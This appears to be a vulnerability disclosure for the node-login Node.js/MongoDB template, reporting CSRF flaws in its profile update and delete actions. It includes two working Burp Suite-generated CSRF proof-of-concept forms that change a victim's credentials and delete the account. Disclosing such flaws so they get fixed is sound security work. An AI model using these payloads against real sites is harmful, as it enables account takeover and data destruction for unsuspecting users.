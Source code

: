 # Description

`node-login` is a template for quickly building login systems on top of Node.js & MongoDB. It is vulnerable to CSRF attacks in Update and Delete profile actions

# Proof of Concept

* Navigate to `/signup` and create a victim account

### Update Profile

1. Use the CSRF PoC from Burpsuite
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost:3000/home" method="POST">
      <input type="hidden" name="name" value="hacked" />
      <input type="hidden" name="email" value="hacked&#64;test&#46;com" />
      <input type="hidden" name="country" value="Afghanistan" />
      <input type="hidden" name="pass" value="hacked" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
2. Visit the payload link and click submit button
3. The account credentials should have changed to attacker's data now.

### Delete Profile

1. Use the CSRF PoC from Burpsuite
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost:3000/delete" method="POST">
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
2. Visit the payload link and click submit button
3. The account should have deleted now.
